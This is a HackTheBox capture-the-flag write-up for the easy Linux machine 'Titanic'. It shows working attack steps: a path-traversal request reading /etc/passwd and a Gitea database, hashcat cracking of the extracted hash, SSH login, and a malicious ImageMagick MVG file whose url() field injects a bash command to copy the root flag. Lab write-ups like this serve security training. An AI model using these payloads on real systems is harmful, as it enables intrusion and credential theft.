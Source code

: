 # Write-Up: Titanic Machine 🚢

![Titanic](https://img.shields.io/badge/Difficulty-Easy-green)  
![Titanic](https://img.shields.io/badge/Platform-HackTheBox-red)  
![Titanic](https://img.shields.io/badge/OS-Linux-blue)  

---

## Index 📚

1. [Introduction](#introduction-)
2. [Enumeration](#enumeration-)
3. [Exploitation](#exploitation-)
4. [Privilege Escalation](#privilege-escalation-)
5. [Conclusion](#conclusion-)

---

## Introduction 🎯

The **Titanic** machine is an **Easy**-difficulty **Linux** machine on HackTheBox. In this write-up, I will detail the exploitation process, from initial enumeration to obtaining the root flag. 🚩

---

## Enumeration 🔍

### 1. Port Scanning 🛠️

We start with a port scan using **Nmap**:

```bash
nmap -sC -sV -oN titanic.nmap 10.10.11.55
Result:

plaintext
Copy

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.x
Port 22: SSH (OpenSSH 8.9p1)

Port 80: HTTP (Apache 2.x)

2. Web Enumeration 🌐
Accessing http://titanic.htb, we find a simple website. An interesting endpoint is /book, which returns a JSON file after submitting a form. Using Burp Suite, we intercept the request and discover it redirects to /download?ticket=rand-id.json.

3. Local File Inclusion (LFI) 🕳️
We test for LFI by replacing rand-id.json with ../../../../etc/passwd:

bash
```Copy
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"```
Result:

plaintext
Copy
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
We confirm the site is vulnerable to LFI. We also extract /etc/hosts and find a subdomain:

plaintext
Copy
127.0.0.1   dev.titanic.htb
Exploitation 💣
1. Accessing Gitea 🐙
We visit http://dev.titanic.htb and find a Gitea instance. We register a new user and explore the repositories:

docker-config: Docker configuration.

flask-app: Flask application code.

2. Extracting the Gitea Database 🗃️
Using the LFI, we extract the Gitea database:

```bash
Copy
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db```
We open the database with SQLite:

bash
Copy
sqlite3 gitea.db
sqlite> SELECT lower_name, passwd, salt FROM user;
We obtain the hash and salt for the developer user.

3. Cracking the Password 🔓
We use hashcat to crack the hash:

bash
Copy
hashcat -m 10900 gitea_hash.txt /usr/share/wordlists/rockyou.txt
We obtain the plaintext password. 🎉

4. SSH Access 🚪
We use the credentials to access via SSH:

bash
Copy
ssh developer@titanic.htb
We read the user flag:

bash
Copy
cat /home/developer/user.txt
Privilege Escalation ⬆️
1. Identifying Vulnerabilities 🕵️
We run sudo -l and find no direct privileges. We explore /opt and find a script called identify_images.sh that uses ImageMagick.

2. Exploiting ImageMagick 🖼️
The ImageMagick version is vulnerable to arbitrary code execution. We create a malicious .mvg file:

plaintext
Copy
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.png"|/bin/bash -c "cat /root/root.txt > /tmp/root.txt")'
pop graphic-context
We execute the script:

bash
Copy
/opt/scripts/identify_images.sh /tmp/exploit.mvg
3. Obtaining the Root Flag 🚩
We check the /tmp/root.txt file:

bash
Copy
cat /tmp/root.txt
Root flag obtained! 🎉

Conclusion 🏁
The Titanic machine demonstrates how an LFI can lead to the exposure of sensitive data (like a Gitea database) and, ultimately, privilege escalation through a vulnerability in ImageMagick.

Flags Captured 🚩

Happy Hacking! 🚀
